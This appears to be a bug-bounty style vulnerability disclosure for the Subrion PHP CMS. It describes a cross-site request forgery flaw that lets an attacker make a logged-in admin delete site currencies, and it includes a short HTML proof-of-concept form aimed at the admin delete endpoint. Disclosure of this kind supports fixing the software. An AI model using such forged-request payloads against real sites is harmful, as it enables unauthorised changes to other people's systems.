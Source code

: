 # Description
Subrion is PHP based CMS. It is one of the best CMS I ever used.The Project is vulnerable to CSRF attack which allows a user to force admin to delete the "Currencies" added in the site.

# Steps To Reproduce & POC
1:Download and Setup Subrion [Subrion-Link](https://github.com/intelliants/subrion/)   
2:Extract the source code to an Apache server with MYSQL   
3:As Default 3 Currencies are added in the Site you can view it by navigaing to http://localhost/huntr/subrion/panel/currencies/   
4:Save the below code as HTML and Click Submit . The Currencie will be deleted    
```
html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/subrion/panel/currencies/delete/EUR/">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
# Impact
This can allow a user to force admin to remove "Currencies" from the website
